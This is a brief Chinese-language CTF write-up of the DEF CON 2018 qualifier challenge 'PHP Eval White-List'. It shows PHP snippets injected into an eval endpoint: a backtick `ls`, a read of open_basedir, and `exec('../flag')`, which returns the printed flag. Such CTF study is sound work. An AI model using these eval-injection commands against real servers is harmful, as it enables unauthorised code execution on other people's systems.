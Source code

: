 # Defcon 2018
這是我第一次打defcon的初賽，雖然web的水準還是很高，但是感覺多了些出壞的題目:sweat:

# PHP Eval White-List
這道題目的頁面是在說，他們做了很厲害的`eval`白名單，除了extension，他們還有開啟`open_basedir`來避免我們去執行別的目錄下的`flag`。  
看到這邊我就起手研究如何繞過`open_basedir`囉～  
首先看看目錄下的檔案：  
```php
// eval()
echo `ls`;
```
網頁根目錄下有這些檔案：  
```
bootstrap.min.css
index.php
source.php
source.txt
tmp/
websec_eval_wl.so
```
再來是看看我們只能**訪問**哪個目錄：  
```php
echo ini_get('open_basedir')
```
回傳得到的是`/var/www/html`  
好，為啥說這道題目不太U呢，其實我最後根本沒試著繞過`open_basedir`，我最後在瞎試`echo exec('../flag')`時就成功了！  
這題的flag就是`OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}`
